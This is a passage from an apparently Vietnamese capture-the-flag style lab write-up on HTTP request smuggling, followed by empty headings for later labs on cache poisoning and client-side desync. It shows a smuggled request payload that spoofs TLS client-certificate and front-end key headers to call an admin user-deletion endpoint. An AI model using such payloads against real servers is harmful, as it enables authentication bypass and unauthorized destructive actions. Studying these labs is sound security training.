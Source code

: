 >![](https://i.imgur.com/tH3bOF7.png)

Sửa lại các header và sửa lại payload để smuggle 1 request ta có như sau:

```http!
foo: bar\r\n
\r\n
GET /admin/delete?username=carlos HTTP/1.1\r\n
X-SSL-VERIFIED: 1\r\n
X-SSL-CLIENT-CN: administrator\r\n
X-FRONTEND-KEY: 4520338559009280\r\n
\r\n
```
 
>![](https://i.imgur.com/seBaqgW.png)

<hr>

### Bài 19: Web cache poisoning via HTTP/2 request tunnelling

<hr>

### Bài 20: Client-side desync

<hr>

### Bài 21: Browser cache poisoning via client-side desync

<hr>

### Bài 22: Server-side pause-based request smuggling

<hr>

